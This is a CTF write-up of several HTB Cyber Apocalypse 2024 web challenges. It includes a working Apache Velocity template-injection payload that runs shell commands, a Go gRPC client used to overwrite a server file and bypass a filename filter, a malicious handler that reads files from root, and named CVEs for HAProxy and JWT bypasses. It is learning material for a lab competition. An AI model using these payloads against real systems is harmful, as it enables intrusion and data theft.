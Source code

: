 ```yaml
---
title: HTB Cyber Apocalypse CTF 2024 Web Writeups
date: 2024-03-15
tags: Web
categories: CTF Writeups
---
```


This CTF happened during my midterms and I didn't really have the luxury of time to look at some of the later challenges. I participated under team youtiaos, and we ended 97th place out of 5694 teams.

## Lightning Round
TimeKORP - Trivial command injection in format parameter 
KORP terminal - SQLmap + bcrypt hash cracking

## Labrinth Linguist
We're given a Java application using the Apache Velocity templating engine. We have user controlled input via `textString` that we can inject Velocity templates into.

```java
t.setData(runtimeServices.parse(reader, "home"));
t.initDocument();
VelocityContext context = new VelocityContext();
context.put("name", "World");

StringWriter writer = new StringWriter();
t.merge(context, writer);
template = writer.toString();
```

`context.put("name", "World");` is the key here. Exclusion of this line would make RCE a lot harder, but since we have this object in our context we can simply access the Java `Class` object through `.getClass()`. We can therefore inject:

```
#set($str=$name.getClass().forName("java.lang.String"))
#set($chr=$name.getClass().forName("java.lang.Character"))
#set($ex=$name.getClass().forName("java.lang.Runtime").getRuntime().exec("cat ../flag.txt"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

to read the flag.

## LockTalk
We're given a Flask application through HAProxy. The flag is accessible through `/flag`:

```python
@api_blueprint.route('/flag', methods=['GET'])
@authorize_roles(['administrator'])
def flag():
    return jsonify({'message': current_app.config.get('FLAG')}), 200
```

The `authorize_roles` decorator is as shown:

```python
def authorize_roles(roles):
    def decorator(func):
        @wraps(func)
        def wrapper(*args, **kwargs):
            token = request.headers.get('Authorization')

            if not token:
                return jsonify({'message': 'JWT token is missing or invalid.'}), 401

            try:
                token = jwt.verify_jwt(token, current_app.config.get('JWT_SECRET_KEY'), ['PS256'])
                user_role = token[1]['role']

                if user_role not in roles:
                    return jsonify({'message': f'{user_role} user does not have the required authorization to access the resource.'}), 403

                return func(*args, **kwargs)
            except Exception as e:
                return jsonify({'message': 'JWT token verification failed.', 'error': str(e)}), 401
        return wrapper
    return decorator
```

There are two things in our way.

Firstly, HAProxy here acts as a firewall and prevents all requests to the API.

```
frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend

    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

Looking at the dockerfile however, we can see that a specific version of HAProxy is being used:

```docker
RUN wget https://www.haproxy.org/download/2.8/src/haproxy-2.8.1.tar.gz
```

Simply using [CVE-2023-45539](https://nvd.nist.gov/vuln/detail/CVE-2023-45539) will allow us to bypass the firewall.

Second is the JWT verification. Unfortunately, looking at `requirements.txt`, they're install a specific version of python_jwt:

```
python_jwt==3.3.3
```

Using [CVE-2022-39227](https://nvd.nist.gov/vuln/detail/CVE-2022-39227) will allow us to bypass authentication and masquerade as an administrator.


## Testimonial
We're given a golang application with file upload using gRPC. Flag is in the root directory. Both the application and the gRPC Ricky server are exposed. Air is used to live-reload the application.

Intuitively, if the file upload is insecure, we can overwrite an application file with a malicious script that reads the flag file and reload the application to reflect our changes.

The client filters the uploaded file name on the client:

```go
func (c *Client) SendTestimonial(customer, testimonial string) error {
	ctx := context.Background()
	// Filter bad characters.
	for _, char := range []string{"/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
		customer = strings.ReplaceAll(customer, char, "")
	}

	_, err := c.SubmitTestimonial(ctx, &pb.TestimonialSubmission{Customer: customer, Testimonial: testimonial})
	return err
}
```

We can easily bypass the check by communicating directly with the gRPC server.

```go
package main

import (
    "context"
    "fmt"
    "sol/pb"
    "log"
    "os"

    "google.golang.org/grpc"
)

func main() {
    serverAddr := "grpcserver:port"

    conn, err := grpc.Dial(serverAddr, grpc.WithInsecure())
    if err != nil {
        log.Fatalf("Failed to connect: %v", err)
    }
    defer conn.Close()

    client := pb.NewRickyServiceClient(conn)

    customer := "uploaded_filename"
	fileContent, err := os.ReadFile("local_copy_of_file")

	if err != nil {
		fmt.Printf("Error reading file: %v\n", err)
		return
	}

	testimonial := string(fileContent)

    err = sendTestimonial(client, customer, testimonial)
    if err != nil {
        log.Fatalf("Failed to send: %v", err)
    }

    fmt.Println("Win")
}

func sendTestimonial(client pb.RickyServiceClient, customer, testimonial string) error {
    ctx := context.Background()
    _, err := client.SubmitTestimonial(ctx, &pb.TestimonialSubmission{
        Customer:    customer,
        Testimonial: testimonial,
    })
    return err 
}
```

We can iteratively search for a useful file we have permissions to overwrite, and home.go serves that purpose.

```go
func HandleHomeIndex(w http.ResponseWriter, r *http.Request) error {
	customer := r.URL.Query().Get("customer")
	testimonial := ""
	
	files, err := ioutil.ReadDir("/")
	if err != nil {
		testimonial = "Error reading root directory"
	}

	if testimonial == "" {
		for _, file := range files {
			if filepath.Ext(file.Name()) == ".txt" {
				content, err := ioutil.ReadFile(filepath.Join("/", file.Name()))
				if err != nil {
					fmt.Printf("Error reading file %s: %v\n", file.Name(), err)
					continue
				}
				testimonial += string(content)
			}
		}
	}

	if customer != "" && testimonial != "" {
		c, err := client.GetClient()
		if err != nil {
			http.Error(w, err.Error(), http.StatusInternalServerError)

		}

		if err := c.SendTestimonial(customer, testimonial); err != nil {
			http.Error(w, err.Error(), http.StatusInternalServerError)

		}
	}
	return home.Index().Render(r.Context(), w)
}
```

We now need to reload the application and submit a new testimonial, thereby calling the malicious home handler. Looking at `air.toml`:

```
include_ext = ["tpl", "tmpl", "templ", "html"]
```

All we need to do is create a new file with one of these extensions and we can retrieve the flag.

## SerialFlow
I had no time to solve this one, but I took a quick look at the challenge. It uses a vulnerable version of `py-memcached` to store the session cookie, which uses unsafe pickle deserialization methods. I tried a few encoding methods to upload a simple payload during the last hour of the CTF, but none of them worked.

After the CTF, I read a few writeups and apparently octal works. Unfortunate.
